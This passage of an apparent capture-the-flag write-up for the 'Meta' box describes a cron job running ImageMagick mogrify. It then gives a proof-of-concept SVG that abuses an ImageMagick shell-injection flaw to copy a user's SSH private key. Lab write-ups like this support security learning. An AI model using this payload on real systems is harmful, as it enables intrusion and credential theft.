 Script is owned by root and running `mogrify` command inside `/var/www/dev01.artcorp.htb/convert_images/` directory.
```bash
(remote) www-data@meta:/$ ls -la ./usr/local/bin/convert_images.sh
-rwxr-xr-x 1 root root 126 Jan  3 10:13 ./usr/local/bin/convert_images.sh
(remote) www-data@meta:/$ cat ./usr/local/bin/convert_images.sh
#!/bin/bash
cd /var/www/dev01.artcorp.htb/convert_images/ && /usr/local/bin/mogrify -format png *.* 2>/dev/null
pkill mogrify
```

And there is a cron running from user "thomas" that executing `/usr/local/bin/convert_images.sh`

![](/assets/img/posts/meta/user-1000-cron.png)

`mogrify` is part of "ImageMagick" and current installed version on the box is "ImageMagick 7.0.10-36"
```bash
(remote) www-data@meta:/var/www/dev01.artcorp.htb/convert_images$ convert -version
Version: ImageMagick 7.0.10-36 Q16 x86_64 2021-08-29 https://imagemagick.org
Copyright: © 1999-2020 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): fontconfig freetype jng jpeg png x xml zlib`
```

And there is a bug in ImageMagick before 7.0.10-40. This bug allow an attacker to execute shell commands using ImageMagick PDF-parsing via maliciously crafted svg file.

* https://portswigger.net/daily-swig/imagemagick-pdf-parsing-flaw-allowed-attacker-to-execute-shell-commands-via-maliciously-crafted-image
* https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html

PoC file.
```svg
<image authenticate='ff" `echo $(cat /home/thomas/.ssh/id_rsa) > /dev/shm/id_rsa`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```
